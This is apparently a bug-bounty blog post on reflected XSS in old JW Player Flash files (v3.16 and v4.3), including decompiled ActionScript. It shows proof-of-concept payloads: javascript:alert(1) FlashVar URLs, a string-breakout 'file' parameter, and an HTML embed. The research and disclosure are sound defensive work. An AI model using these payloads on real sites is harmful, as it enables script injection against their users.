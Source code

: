 ```yaml
---
layout: post
title: Fun with Flash
---
```


## Intro
In Frans Rosen’s [talk on bug bounties](https://www.youtube.com/watch?v=KDo68Laayh8), he recommends searching for flash files, since a lot of them are vulnerable.  This got me interested in reading up on Flash files.

## The Tools  
- https://www.owasp.org/index.php/Testing_for_Cross_site_flashing_(OWASP-DV-004)
- To decompile Flash into Actionscript, use [JPEXS](https://www.free-decompiler.com/flash/download/).
- Adobe also made an app called [SWF Investigator](http://labs.adobe.com/technologies/swfinvestigator/).  In one of the tabs, it lists out all the vulnerable functions in the file.

## What’s wrong with Flash?
There are a lot of unsafe functions in Actionscript:

```javascript
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load 
LoadVars.send 
XML.load ( 'url' )
LoadVars.load ( 'url' ) 
Sound.loadSound( 'url' , isStreaming ); 
NetStream.play( 'url' );
flash.external.ExternalInterface.call(_root.callback)
HtmlText
```

The other issue is that you can add parameters (Flashvars) to the URL.  Combine these two issues and you can create reflected XSS attacks like this: https://mysite.com/player.swf?callback=javascript:alert(1).  

## Example: XSS in JW Player v3.16 and v4.3
I came across a copy of JW Player 3.16 and found an XSS vulnerability.  Version 5 also had a few XSS vulns, which you can read about [here](https://nealpoole.com/blog/2013/04/unpatched-reflected-xss-in-jw-player-5/) and [here](https://packetstormsecurity.com/files/113332/JW-Player-5.9-Cross-Site-Scripting-Content-Spoofing.html).  They weren’t interested in doing hotfixes for old versions, but they are fixed in the current JWPlayer 7.8.

### v3.16
Anyways, for v3.16, you can find the source code here:
https://github.com/psych0d0g/kplaylist-ng/tree/master/mediaplayer-3-16

In ```ConfigManager.as```, we find these lines:
```actionscript
    public function goTo(obj,itm) {
        getURL(obj.ref.config['aboutlnk'],'_blank');
    };
```
The ```aboutlnk``` is a FlashVar.  getURL is an unsafe function that will run javascript.  To get this to work you need to paste ```http://localhost/mediaplayer.swf?aboutlnk=javascript:alert(1)``` , right click to get the context menu, and then click the “About” option.  This works in Firefox v50.

### v4.3
I found a copy of [version v4.3](https://web.archive.org/web/20121226095419/http://developer.longtailvideo.com/trac/changeset/HEAD/tags/mediaplayer-4.3?old_path=%2F&format=zip) in the Internet Archive.  The vulnerability is still there.  

In ```Rightclick.as```:
```actionscript
	/** jump to the about page. **/
	private function aboutSetter(evt:ContextMenuEvent):void {
		navigateToURL(new URLRequest(view.config['aboutlink']),'_blank');
	};
```

In v4.3, they rewrote it in ActionScript 3.  So they use ```navigateToURL``` instead of ```getURL```, but it's still not a safe function to pass FlashVars to.  The FlashVar variable name also changed from ```aboutlnk``` to ```actionlink```.

This URL works in Firefox v50:```http://localhost/mediaplayer.swf?aboutlink=javascript:alert(1)```

### v5.1

Out of curiousity, I checked [v5.1](https://web.archive.org/web/20110923000742/http://developer.longtailvideo.com/trac/changeset/1965/tags/mediaplayer-5.1.910?old_path=%2F&format=zip) and they finally fixed it by hardcoding the value.  

In ```Rightclick.as```:
```actionscript
/** jump to the about page. **/
		protected function aboutHandler(evt:ContextMenuEvent):void {
			navigateToURL(new URLRequest('http://www.longtailvideo.com/players/jw-flv-player'), '_blank');
		}
```

I contacted them about this, and asked if they were going to issue a patch or send out a bulletin.  They replied they didn't support old versions.


## Almost, but not quite
In this code, from ```CallbackView.as```, we see another example of how we can use FlashVars to make the Flash file run javascript:
```actionscript
/** sending the current file,title,id,state,timestamp to callback **/
    private function sendVars(stt:String,dur:Number,cpl:Boolean) {
        clearInterval(playSentInt);
        if(config['callback'] == "urchin" || config['callback'] == "analytics") {
            var fil = feeder.feed[currentItem]["file"];
            var fcn = "javascript:pageTracker._trackPageview";
            if(config['callback'] == "urchin") {
                fcn = "javascript:urchinTracker";
            }
            if(fil.indexOf('http') != undefined) {
                fil = fil.substring(fil.indexOf('/',7)+1);
            }
            if(stt == "start") {
                getURL(fcn+"('/start_stream/"+fil+"');");
            } else if (stt == "stop" && cpl == true) {
                getURL(fcn+"('/end_stream/"+fil+"');");
            }
        } else {
            varsObject.file = feeder.feed[currentItem]["file"];
            varsObject.title = feeder.feed[currentItem]["title"];
            varsObject.id = feeder.feed[currentItem]["id"];
            varsObject.state = stt;
            varsObject.duration = dur;
            varsObject.sendAndLoad(config["callback"],varsObject,"POST");
        }
    };
```

Using the “callback” and “file” FlashVars, we can get the line 
```actionscript
getURL(fcn+"('/end_stream/"+fil+"');");
``` 
to execute.  


If we use ?file=video.flv&callback=urchin, it would fire off 
```
javascript:urchinTracker(‘end_stream/video.flv’);
```
but that would be pretty boring.  


By changing the “file” parameter, however, we can get it to execute custom Javascript.  

Example: 
```
file=video');alert(1);void('.flv. 
```

This would cause the browser to execute 
```
javascript:urchinTracker(‘end_stream/video’);alert(1):void(‘.flv’);
```

Unfortunately, this can’t be used for a reflected XSS attack, since the function “urchinTracker” isn’t there if you just pull up the swf file url.  The only way to exploit this would be if a page embedded the the file and also let you specify the flashvars in the url.

As an example, try putting the following in a webpage.  It will automatically play, stop, and pop an alert box.  It works in Firefox, Chrome, and Safari.

```html
function urchinTracker(){
}
 <object style="height:360px;width:640px;" data="mediaplayer.swf" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="file=video');alert(1);void('.flv&enablejs=true&callback=urchin&autostart=true" id="jstest" ></object> 
```

## Automate it
As with many things in security, finding these files and exploiting them can be tedious if you have to do it manually.  A better approach would be to write a script to scrape Google for the Flash files, download them, decompile them, and grep the unsafe function names.
